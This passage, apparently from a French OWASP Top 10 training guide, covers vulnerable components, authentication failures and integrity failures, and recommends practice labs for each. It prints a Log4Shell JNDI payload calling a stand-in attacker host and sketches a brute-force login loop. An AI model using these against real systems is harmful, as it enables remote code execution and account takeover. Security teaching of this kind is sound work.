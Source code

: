 #### A06:2021 – Vulnerable and Outdated Components

L'utilisation de composants vulnérables ou obsolètes expose l'application aux risques connus.

**Vulnérabilités principales :**
- Bibliothèques non patchées
- Frameworks obsolètes
- Composants sans support
- Absence de scanning de vulnérabilités

**Labs recommandés :**
- Juice Shop : "Vulnerable Component"
- OWASP WebGoat : "Vulnerable Components"
- VulnHub : "Vulnerable Docker"

**Exemple d'exploitation :**
```
# Exploitation d'une vulnérabilité connue dans un composant
# Exemple : Log4Shell (CVE-2021-44228)
${jndi:ldap://attacker.com/exploit}
```

#### A07:2021 – Identification and Authentication Failures

Les défaillances d'authentification permettent de compromettre les identités des utilisateurs.

**Vulnérabilités principales :**
- Bruteforce possible
- Identifiants par défaut
- Stockage non sécurisé des mots de passe
- Récupération de mot de passe faible
- Gestion de session défaillante

**Labs recommandés :**
- DVWA : "Weak Session IDs", "Brute Force"
- Juice Shop : "Password Strength", "JWT Issues"
- PortSwigger : "Username enumeration"

**Exemple d'exploitation :**
```
# Attaque par force brute
# Script automatisé testant des combinaisons login/mot de passe
for password in wordlist:
    try_login("admin", password)
```

#### A08:2021 – Software and Data Integrity Failures

Cette nouvelle catégorie concerne les problèmes liés à l'intégrité du code et des données.

**Vulnérabilités principales :**
- Utilisation de dépendances non vérifiées
- Désérialisation non sécurisée
- CI/CD non sécurisé
- Mise à jour automatique sans vérification

**Labs recommandés :**
- Juice Shop : "Forged Feedback", "Forged Review"
- PortSwigger : "Insecure deserialization"
- OWASP WebGoat : "Insecure Deserialization"
